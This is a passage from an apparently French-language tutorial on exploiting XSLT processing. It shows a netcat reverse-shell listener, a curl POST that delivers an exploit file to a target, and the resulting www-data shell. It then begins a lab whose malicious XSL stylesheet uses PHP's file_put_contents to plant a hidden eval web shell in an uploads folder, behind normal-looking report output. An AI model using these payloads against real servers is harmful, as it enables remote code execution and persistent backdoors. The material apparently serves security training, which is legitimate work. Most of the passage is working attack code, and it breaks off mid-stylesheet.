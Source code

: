 **Étape 1 : Préparer le listener**

```bash
nc -lvnp 4444
```

**Étape 2 : Envoyer le payload**

```bash
curl -X POST http://target.com/transform \
  -H "Content-Type: application/xml" \
  --data-binary @exploit.xml
```

**Étape 3 : Recevoir le shell**

```bash
listening on [any] 4444 ...
connect to [10.10.10.10] from (UNKNOWN) [192.168.1.100] 45678
bash: no job control in this shell
www-data@server:/$
```

***

#### 🧪 Lab 5 : Exploitation via upload de fichier

**Scénario :** Application web qui accepte des uploads XML+XSLT pour générer des rapports

**Étape 1 : Créer le rapport malveillant**

**report.xml :**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<?xml-stylesheet type="text/xsl" href="report.xsl"?>
<report>
  <title>Rapport mensuel</title>
  <data>
    <item>Element 1</item>
    <item>Element 2</item>
  </data>
</report>
```

**report.xsl (malveillant) :**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0"
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:php="http://php.net/xsl">
  
  <xsl:template match="/">
    <!-- Affichage normal du rapport -->
    <html>
      <body>
        <h1><xsl:value-of select="report/title"/></h1>
        <ul>
          <xsl:for-each select="report/data/item">
            <li><xsl:value-of select="."/></li>
          </xsl:for-each>
        </ul>
        
        <!-- Backdoor invisible -->
        <xsl:variable name="backdoor" select="php:function('file_put_contents',
          '../uploads/.config.php',
          '&lt;?php @eval($_POST[&quot;x&quot;]); ?&gt;')"/>
      </body>
    </html>
  </xsl:template>
```